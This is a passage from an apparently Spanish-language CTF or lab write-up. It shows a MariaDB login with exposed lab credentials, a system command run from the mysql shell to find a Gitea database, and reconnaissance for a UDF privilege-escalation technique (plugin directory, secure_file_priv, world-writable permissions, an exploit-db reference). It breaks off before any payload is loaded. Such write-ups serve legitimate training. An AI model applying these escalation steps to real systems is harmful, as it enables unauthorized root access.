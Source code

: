 Intentando todo tipo de credenciales que hemos obtenido (con la del usuario `designer` obvio), recordé la primera pista que nos dieron al entrar en el primer inicio de sesión. Las credenciales `admin`:`PassAdmin123-` que aparecían en el `placeholder` de los campos en la página, son válidas para acceder al servicio de `mysql`

~~~ bash
designer@0749e50021a5:~$ mysql -u admin -p'PassAdmin123-'
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 20
Server version: 10.11.8-MariaDB-0ubuntu0.24.04.1 Ubuntu 24.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
~~~

Había una base de datos pero como en este momento no recuerdo el nombre te muestro como podemos ejecutar un comando a nivel de sistema en la shell de `mysql`

~~~ bash
MariaDB [mysql]> system find / -name "gitea.db" 2>/dev/null
/home/designer/gitea/data/gitea.db
~~~


## User Defined Functions (UDF)

Usaremos esta técnica para escalar privilegios que consiste en cargar una librería compartida maliciosa con el fin de ejecutar código externo y definido por nosotros a nivel de sistema

- https://www.exploit-db.com/exploits/1518

~~~ sql
MariaDB [mysql]> SHOW VARIABLES LIKE '%plugin_dir%';
+---------------+------------------------+
| Variable_name | Value                  |
+---------------+------------------------+
| plugin_dir    | /usr/lib/mysql/plugin/ |
+---------------+------------------------+
1 row in set (0.001 sec)

SHOW VARIABLES LIKE '%secure_file_priv%';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set (0.001 sec)
~~~

Con esta información sabemos que podemos guardar `plugins` dentro de `/usr/lib/mysql/plugins`. Debemos comprobar que tengamos permisos de escritura sobre este directorio como el usuario actual

~~~ bash
designer@0749e50021a5:~/gitea/data$ ls -l /usr/lib/mysql/
total 0
drwxr-xrwx 1 root root 866 Feb 26 12:13 plugin
~~~
